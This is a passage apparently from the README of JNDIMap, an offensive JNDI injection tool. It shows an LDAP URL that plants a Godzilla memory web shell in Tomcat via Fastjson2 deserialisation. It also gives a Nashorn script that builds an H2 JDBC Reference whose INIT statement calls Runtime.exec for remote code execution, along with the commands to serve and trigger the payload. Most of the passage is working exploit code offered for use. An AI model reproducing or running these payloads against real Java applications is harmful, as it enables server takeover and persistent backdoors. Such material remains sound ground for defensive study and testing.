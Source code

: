 ```bash
ldap://127.0.0.1:1389/Deserialize/Fastjson2/MemShell/Tomcat/Godzilla/Filter
```

## Script

JNDIMap supports writing custom JNDI payload scripts with the Nashorn JavaScript engine (based on ES5)

Take H2 RCE as an example

```javascript
var Reference = Java.type("javax.naming.Reference");
var StringRefAddr = Java.type("javax.naming.StringRefAddr");

var list = [];
list.push("CREATE ALIAS EXEC AS 'String cmd_exec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return \"test\";}'");
list.push("CALL EXEC('" + args + "')"); // parameters are passed in through the args variable

var url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=" + list.join(";") + ";";

var ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null);
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
ref.add(new StringRefAddr("jdbcUrl", url));

ref; // return Reference object
```

Start JNDIMap

```bash
java -jar JNDIMap.jar -f /path/to/evil.js
```

Achieve RCE via the following JNDI URL

```bash
# supports passing parameters to JS script manually
ldap://127.0.0.1:1389/Script/<args>
```

In some cases, the JNDI URL is not completely controllable, so you can specify the `-u` parameter

```bash
java -jar JNDIMap.jar -f /path/to/evil.js -u "/Script/open -a Calculator"
```

Then trigger via any JNDI URL

```bash
ldap://127.0.0.1:1389/x
```

## Advanced Techniques

### Use Reference Only
